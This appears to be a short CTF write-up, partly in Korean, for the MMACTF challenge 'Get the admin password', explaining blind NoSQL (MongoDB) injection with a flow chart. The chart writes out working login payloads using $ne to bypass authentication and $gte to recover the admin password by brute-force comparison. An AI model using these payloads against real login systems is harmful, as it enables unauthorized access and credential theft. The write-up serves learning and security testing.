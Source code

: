 ================================================================================================================
[MMACTF] Get the admin password
================================================================================================================

Flow Chart
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8 -> step10 -> step12;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9 -> step11 -> step13;
        }
        step0 -> step1[label="user=admin&password[$ne]=1",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
        step4 -> step5[label="user=admin&password[$gte]=T",arrowhead="normal"];
        step7 -> step6[label="login success",arrowhead="normal"];
        step8 -> step9[label="user=admin&password[$gte]=U",arrowhead="normal"];
        step10 -> step11[label="login fail",arrowhead="normal"];

    }

|

Source analysis
================================================================================================================

MongoDB와 같은 NoSQL에 대한 Blind Injection 입니다.
$ne 연산자를 통해 취약점 존재를 확인하고, $gte 연산자를 이용하여 무작위 대입을 진행하여 true/false를 확인합니다.